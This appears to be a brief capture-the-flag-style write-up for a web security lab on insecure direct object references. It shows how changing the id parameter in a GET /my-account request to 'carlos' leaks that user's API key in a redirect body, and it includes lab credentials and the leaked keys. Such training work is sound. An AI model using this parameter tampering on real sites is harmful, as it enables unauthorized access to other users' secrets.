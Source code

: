 # User ID controlled by request parameter with data leakage in redirect

## This lab contains an [access control]vulnerability where sensitive information is leaked in the body of a redirect response.

## To solve the lab, obtain the API key for the user `carlos` and submit it as the solution.

## You can log in to your own account using the following credentials: `wiener:peter`

### step1

login click on my account

/my-account?id=wiener
Your API Key is: Bzcv5EJwxkUCuy3xoPqiwdp0yx0D9Zgl

change wiener to carlos and intercept
send to repeater
GET /my-account?id=carlos HTTP/1.1
and send request
Your API Key is: gQW7tI9a54ob6iDnYhFvPUmHBL3cDO3Y
submit api key and relaod the page lab solved
